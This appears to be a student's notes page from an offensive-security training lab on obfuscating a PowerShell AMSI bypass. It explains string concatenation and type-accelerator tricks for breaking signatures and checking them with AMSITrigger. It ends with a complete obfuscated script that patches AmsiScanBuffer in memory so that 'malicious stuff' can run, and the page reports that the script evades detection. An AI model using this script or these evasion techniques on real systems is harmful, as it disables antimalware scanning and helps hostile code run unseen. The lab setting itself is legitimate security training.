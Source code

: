Now that we have a partially working bypass, we need to obfuscate the code to bypass detections. I know, AMSIception... There are several tools and articles that can help us out in this process to understand the process and requirements better. It is helpful to think of obfuscation as an art rather than a technique. It can be experimentative and repetitive as you modify and tamper with source code and signatures.  

To begin our obfuscation journey, we will start with manual obfuscation along with signature checking scripts. In the next task, we will cover automated obfuscators like Invoke-Obfuscation and ISE-Steroids. The manual route is far more reliable compared to automated obfuscators as you are checking and tampering with each signature within your sample, in this case, an AMSI bypass.

## Obfuscating AMSI bypass code

Generally, AMSI is only looking for weak strings for AMSI bypasses such as `AmsiScanBuffer`, `amsiInitFailed`, `AmsiUtils`, etc. This is where string concatenation can come into play and aid in breaking these string signatures. As EDR solutions and products progress, these signatures and methods may become more robust. Still, these identical signatures have been prevalent for a reasonable amount of time and aren't expected to be changing any time soon for non-commercial products.  

To aid in our obfuscation efforts, we will use the `AMSITrigger` script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick. This script will take a given PowerShell script and each unique string within it against AMSI to identify what strings are being used to flag the script as malicious. This will only test against AMSI and <u>not Defender</u>; we will go over obfuscating for Defender in a later task; however, for this task, we only need to worry about AMSI since everything is file-less (mostly).

AMSI will also utilize regex to aggregate risk assessment; this means that no one individual string might be flagged rather an entire code block. This can be painful for us to obfuscate and require other techniques like encoding, type acceleration, and run-time decoding.  

To use AMSITrigger, we only need to specify two parameters, `-u`, `—url` or `-i`, `—inputfile` and `-f`, `—format`. Find example syntax below.

Syntax: `.\\AMSITrigger.exe -u <URL> -f 1` or `.\\AMSITrigger.exe -i <file> -f 1`

![[Task 32 - AMSIception-20241009140446749.webp]]

Running the script against the AMSI bypass from BC-Security shown in the previous task, we see that the `VirtualProtect` code block was flagged along with the run-time buffer.  

We can also use format 3 to see inline with the code with precisely what is being flagged.

![[Task 32 - AMSIception-20241009140551144.webp]]


## String concatenation

The first method of manual obfuscation we will look at is string concatenation. From the Microsoft documentation, *"Concatenation is the process of appending one string to the end of another string. You concatenate strings by using the + operator. For string literals and string constants, concatenation occurs at compile-time; no run-time concatenation occurs. For string variables, concatenation occurs only at run time."* Concatenation is a fairly common technique used within most programming languages; however, we can abuse it to aid us in obfuscation. 

Find an example of string concatenation below.

`$OBF = 'Ob' + 'fu' + 's' +'cation'`

There are several various methods of string concatenation and other techniques that we can use to break signatures. Find an outline of the different methods below.  

- Concatenate - `('co'+'ffe'+'e')`
- Reorder - `('{1}{0}'-f'ffee','co')`
- Whitespace - `( 'co' +'fee' + 'e')`

String manipulation usually will help break single-string weak signatures; as previously explained, AMSI can also use regex to aggregate risk assessment. We will need to use more advanced techniques like encoding and type acceleration in regex signatures found below.

## Type acceleration

The second method of manual obfuscation we will look at is type acceleration. From the Microsoft documentation, "Type accelerators are aliases for .NET framework classes. They allow you to access specific .NET framework classes without having to type the full class name explicitly. For example, you can shorten the `AliasAttribute` class from `[System.Management.Automation.AliasAttribute]` to `[Alias]`." [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_type_accelerators?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_type_accelerators?view=powershell-7.1)

We can abuse type accelerators to modify malicious types and break the signatures of types. For example, you can use PowerShell to create your own `PSObject` and type accelerator to be used in place of the malicious type and, in turn, break the AMSI signature.  

This may seem like an intimidating topic at first, but we can break it down into two lines of code to make it easier to understand.  

To create a type accelerator, we will need to first declare a `PSObject` in Assembly to retrieve the type.

`[PSObject].Assembly.GetType`

We will then need to add our malicious type to `System.Management.Automation.TypeAccelerators`. This will allow us to use the type accelerator as a separate type from the malicious type. Find example code below.

`("System.Management.Automation.TypeAccelerators")::Add('dorkstork', [system.runtime.interopservices.marshal])`

We can combine these two code snippets to create a final `PSObject` containing the newly created type.  

`[PSObject].Assembly.GetType("System.Management.Automation.TypeAccelerators")::Add('dorsktork', [system.runtime.interopservices.marshal])`

We can then replace the `PSObject` at the location of the malicious type. Find a comparison of the new and old code below.  

Old: `[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);`

New: `[dorkstork]::copy($buf, 0, $BufferAddress, 6);`

Now we have a newly created type accelerator that will break the signature attached to it.  

For more information about creating type accelerators within PowerShell, check out this blog, [https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/adding-new-type-accelerators-in-powershell](https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/adding-new-type-accelerators-in-powershell)

To entirely obfuscate our code and ensure our bypass works, we can combine the two techniques shown. In addition, you can rerun AMSITrigger as needed to help identify broken signatures and other signatures not yet broken.  

At this point, you should now have a working AMSI bypass. You can now move on to obfuscating and modifying our grunt and launcher itself to evade AV.  

For more information about manual obfuscation and AMSI obfuscation, check out the following resources.

- [](https://amsi.fail/)[https://amsi.fail/](https://amsi.fail/)
- [](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)[https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
- [](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)[https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
- [](https://www.youtube.com/watch?v=lP2KF7_Kwxk)[https://www.youtube.com/watch?v=lP2KF7_Kwxk](https://www.youtube.com/watch?v=lP2KF7_Kwxk)
- [](https://www.youtube.com/watch?v=F_BvtXzH4a4)[https://www.youtube.com/watch?v=F_BvtXzH4a4](https://www.youtube.com/watch?v=F_BvtXzH4a4)


---

# Your job

You need to obfuscate the [[Task 31 - THEY WONT SEE ME IF I YELL!]] section scripts to make them bypass detection and actually unhook AMSI so you can run malicious stuff!

The task has good information about what we are trying to achieve, and basically trying to remove anything that will flag AMSI. To do this, we can use [AMSITrigger](https://github.com/RythmStick/AMSITrigger/releases), so download that onto your dev machine (or Windows 10 machine).

### Obfuscated **amsi_bypass.ps1**

```csharp
$MethodDefinition = "

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 
[PSObject].Assembly.GetType("System.Management.Automation.TypeAccelerators")::Add('d1kst1k', [system.runtime.interopservices.marshal])
[d1kst1k]::copy($buf, 0, $BufferAddress, 6);4
```


If you run the following code on Powershell on the Windows 10 machine:
PS C:\Users\vboxuser\Documents\AMSI> `.\AmsiTrigger_x86.exe -i .\amsi_bypass.ps1 -f 3`

you'll get the following output:

**AMSI_RESULT_NOT_DETECTED = 1**: This means no threats were detected by the scan, so the content is considered safe to execute.


**Next step: ** [[Task 33 - JU57 0BFU$C47E 1T]]

